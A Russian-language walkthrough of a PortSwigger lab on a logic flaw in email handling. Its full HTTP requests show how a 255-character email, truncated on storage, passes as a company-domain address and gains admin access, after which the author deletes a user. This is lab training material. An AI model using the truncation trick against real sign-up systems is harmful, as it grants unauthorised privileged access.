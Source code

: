 ```yaml
---
title: "Inconsistent handling of exceptional input"
date: 2025-10-16
tags: [web, writeup]  
categories: [PortSwigger]
tagline: ""
header:
  overlay_image: /assets/images/IMG_writeups/IMG_PortSwigger/ps_logo.webp
  overlay_filter: 0.5 
  overlay_color: "#fff"
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/logic-flaws/examples/lab-logic-flaws-inconsistent-handling-of-exceptional-input"
classes: wide
---
```


В лабе плохо валидируется ввод. Для решения нужно получить доступ к панели администратора и удалить пользователя `carlos`.

```
https://0aec001f0315d694808776da000c00bf.web-security-academy.net/
```

# Solution

Попробую зарегистрироваться на сайте.

```http
POST /register HTTP/2
Host: 0aec001f0315d694808776da000c00bf.web-security-academy.net
Cookie: session=YllAjaKC7P1WXFK16u5nBoQ7MfbpCd4F
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:144.0) Gecko/20100101 Firefox/144.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0aec001f0315d694808776da000c00bf.web-security-academy.net/register
Content-Type: application/x-www-form-urlencoded
Content-Length: 146
Origin: https://0aec001f0315d694808776da000c00bf.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

csrf=zdYUHH7AEaRsWIp7nvMjWaGKH3cZUZOu&username=name&email=attacker%40exploit-0aab00d803fad6a58091759a01fb00c8.exploit-server.net&password=11223344
```

Я не знаю что или кто это, но я неприменно от них.

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_blv/IMG_inconsistent-handling-of-exceptional-input/1.png){: height="200" .align-center}

Это как-то должно проверяться. Попробую вставить почту, а потом уже этот домен:

```http
POST /register HTTP/2
Host: 0aec001f0315d694808776da000c00bf.web-security-academy.net
Cookie: session=YllAjaKC7P1WXFK16u5nBoQ7MfbpCd4F
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:144.0) Gecko/20100101 Firefox/144.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0aec001f0315d694808776da000c00bf.web-security-academy.net/register
Content-Type: application/x-www-form-urlencoded
Content-Length: 165
Origin: https://0aec001f0315d694808776da000c00bf.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

csrf=zdYUHH7AEaRsWIp7nvMjWaGKH3cZUZOu&username=name1&email=attacker%40exploit-0aab00d803fad6a58091759a01fb00c8.exploit-server.net@dontwannacry.com&password=11223344
```

Не прокатило. Разные разделители я тоже попробовал. А почему нет, если да. Попробую сделать длинную почту. Домен все равно мой.

```http
POST /register HTTP/2
Host: 0aec001f0315d694808776da000c00bf.web-security-academy.net
Cookie: session=YllAjaKC7P1WXFK16u5nBoQ7MfbpCd4F
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:144.0) Gecko/20100101 Firefox/144.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0aec001f0315d694808776da000c00bf.web-security-academy.net/register
Content-Type: application/x-www-form-urlencoded
Content-Length: 347
Origin: https://0aec001f0315d694808776da000c00bf.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

csrf=zdYUHH7AEaRsWIp7nvMjWaGKH3cZUZOu&username=name1&email=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaattacker%40exploit-0aab00d803fad6a58091759a01fb00c8.exploit-server.net&password=11223344
```

Нас обрезали)

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_blv/IMG_inconsistent-handling-of-exceptional-input/2.png){: height="200" .align-center}

```python
>>> s = 'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaattacker@exploit-0aab00d803fad6a58091759a01fb00c8.explo'
>>> len(s)
255
```

Строка имеет длину `255`.

Попробую скрафтить пейлоад так, чтобы `name` + `@dontwannacry.com` были равны по длине `255`, а далее добавлю`exploit-0aab00d803fad6a58091759a01fb00c8.exploit-server.net`:

```
oooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo@dontwannacry.com.exploit-0aab00d803fad6a58091759a01fb00c8.exploit-server.net
```

Отправлю:

```http
POST /register HTTP/2
Host: 0aec001f0315d694808776da000c00bf.web-security-academy.net
Cookie: session=UHNhJJEiNwfSjQ82w5Sj8QLoiqIdJq5x
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:144.0) Gecko/20100101 Firefox/144.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0aec001f0315d694808776da000c00bf.web-security-academy.net/register
Content-Type: application/x-www-form-urlencoded
Content-Length: 383
Origin: https://0aec001f0315d694808776da000c00bf.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

csrf=S6QwN8oGurEn0etIEdkxg7w6sJj2axjx&username=1&email=oooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo%40dontwannacry.com.exploit-0aab00d803fad6a58091759a01fb00c8.exploit-server.net&password=1
```

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_blv/IMG_inconsistent-handling-of-exceptional-input/3.png){: height="200" .align-center}

А вот и админ панель:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_blv/IMG_inconsistent-handling-of-exceptional-input/4.png){: height="200" .align-center}

`carlos` удален, значит лаба решена.

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_blv/IMG_inconsistent-handling-of-exceptional-input/5.png){: height="200" .align-center}